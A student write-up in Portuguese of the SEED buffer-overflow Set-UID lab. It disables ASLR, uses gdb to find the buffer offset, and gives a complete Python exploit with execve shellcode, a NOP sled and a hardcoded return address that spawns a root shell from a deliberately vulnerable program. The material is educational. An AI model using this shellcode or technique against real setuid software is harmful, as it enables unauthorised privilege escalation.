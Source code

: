 # Buffer Overflow Attack Lab (Set-UID Version)

## Setup

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```Bash
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

## Task 1

- Depois de brevemente analiasarmos o funcionamento do Shellcode, compilamos o prgrama `call_shellcode.c` que invoca a versão 32-bit Shellcode ou a versão 64-bit.

- Corremos os binários e em ambas as versões foi executada uma nova shell (`/bin/sh`).

![image](screenshots/LB5_1.png)

## Task 2

- Alteração da variável `L1` para 100+8*7.

- Através do comando `make stack-L1` compilámos o programa vulnerável e tornámo-lo num root-owned Set-UID program. 

## Task 3

- Criámos um ficheiro ``badfile` e usámos o `gdb` para fazer debug a `stack-L1-dbg`.

```Bash
$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run 
...
Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:16
16 {
gdb-peda$ next
...
20 strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer
$2 = (char (*)[156]) 0xffffca54
gdb-peda$ p/d 0xffffcaf8 - 0xffffca54
$3 = 164
```

- Foi possível registar os seguintes valores para o EBP e o endereço do buffer, respetivamente: 0xffffcaf8 e 0xffffca54. Calculando a diferença entre estes dois valores obtemos, em decimal, 164.

- Obtivemos as informações necessárias e alterámos o ficheiro `exploit.py` para lançar o ataque.

```c
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 300              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xffffcb90   # Change this number 
offset = 164 + 4         # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- O valor do `offset` corresponde a 164 + 4 = 168. Foi necessário adicionar 4 à diferença obtida para se obter o endereço do return address devido à arquitetura do programa utilizado visto que o previous frame pointer se encontra em baixo do return adress. 

- O valor de `start` inserido foi um valor escolhido entre 172 e 517, visto que se estabeleceu que serão copiados 517 bytes para o buffer e que entre as posições 168 à 172 encontra-se o return adress. Escolhemos o 300. 

- O valor do `ret`, por sua vez corresponde à posição exata onde ficará o comando de abertura do shellcode. Obteve-se o ret somando ao endereço base obtido do buffer o valor de start em hexadecimal, sendo este valor 0xffffcb90.

- Após correr `exploit.py`, corremos `stack-L1` executando assim o nosso antaque onde foi lançado uma shell.

![image](screenshots/LB5_2.png)

